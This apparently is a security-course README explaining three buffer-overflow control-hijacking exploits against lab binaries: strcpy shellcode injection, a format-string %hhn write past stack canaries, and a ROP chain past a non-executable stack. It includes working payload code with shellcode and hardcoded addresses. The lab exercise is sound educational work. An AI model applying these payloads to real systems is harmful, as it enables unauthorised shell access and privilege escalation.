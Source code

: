 # Control Hijacking Attack
In this repository, I implemented some buffer overflow controlling hijacking attacks which all are described down below. You can find Executable Linkable Formats(ELF) of these
programs named "prog_vuln#" and corresponding inputs for each of them named "expoit#.sh" which were designed to overflow the buffers of program and rewrite some specific addresses
of the memory to change control flow of the program which will result in getting shell with sudo privileged.
## prog_vuln1
To perform this attack I used vulnerability of <b>strcpy()</b> function which does not check the length of strings before copy. As a result it will be possible to perform <b>buffer overflow</b> write some specific 
addresses in the stack and change the pointer to the start of shell code. You can see related commands in the following.
```
$(python -c 'print("\x90"*63 +
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x0
8\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "w"
*500 + "\x90\xf0\xff\xbf")')
```
## prog_vuln3
In this part there are some <b>canaries</b> (stack guard) in the address space of the program. So it isn't possible to overflow the program because all return addresses will be protected by these structures. To perform the attack I used <b>format stringing</b>. In this approach we exploit vulnerability of <b>printf()</b> function.   
We know that every time we use "%n"
in printf(), this function will write number of the bytes before this symbol at the top of stack. But It's not possible to enter these huge number of inputs to printf(), So I'll use "%hhn" that only writes the number of inputs in one byte of address which placed top of the stack. so we should sort all bytes of addresses which we want to write on and place the desired addressed in reverse order at the top of stack. you can see the designed input down below.
```
$(python -c
'print("\xb8\xfb\xff\xbf\xb7\xfb\xff\xbf\xb6\xfb\xff\xbf\xb5\xfb\xff\xbf\x9d\xfb\xff\xbf\xa4\xfb\xff\x
bf\xa0\xfb\xff\xbf\x9c\xfb\xff\xbf\xa1\xfb\xff\xbf\xa5\xfb\xff\xbf" + 160 * "w" + "%n%hhn%hhn" +
104 * "w" + "%hhn" + 11 * "w" + "%hhn" + 18 * "w" + "%hhn" + 35 * "w" + "%hhn" + 8 * "w" + "%hhn"
+ 64 * "w" +"%hhn" + 11 * "w" + "%hhn" + "%hhn" + 9 * "w")')
```
## prog_vuln4
In this part I used vulnerabilities of <b>scanf()</b> function which doesn't check whether input string match the space dedicated for it or not.  
In this program stack guards were deactivated but there is <b>NON-Executable Stack</b> protection. Since there is no canaries in the address space, we can change the return address of functions by causing overflow in the scanf() input. But unlike the prog_vuln1 because of NON-Executable Stack protection it's not possible to place the shell code in the scanf() input.  
To overcome this type of protection, I used <b>Return-oriented programming</b>. In this type of exploit we should find some suitable gadgets in the assembly code of the program and sort them to execute a shell code. In the below figure you can see arrangment of stack after we rewrite the return address of main with buffer overflow.  
<p align="center">
<img src="https://github.com/amir-sabzi/Network_Systems_Security/blob/master/Control_hijacking/stack.png" alt="drawing" width="500" align="center"/>
</p>
To perform discribed actions we should run a simple python code to write input in hex format in a file and then run the code with the input has been read from file. you can see this simple python script down below.  

```
from pwn import *
payload = 16 * "a" + p64(0x7fffffffe468)+ p64(0x400683) + p64(0x601048) + p64(0x00000000004005e8)
f= open("in.txt","w+")
f.write(payload)
f.close()
```

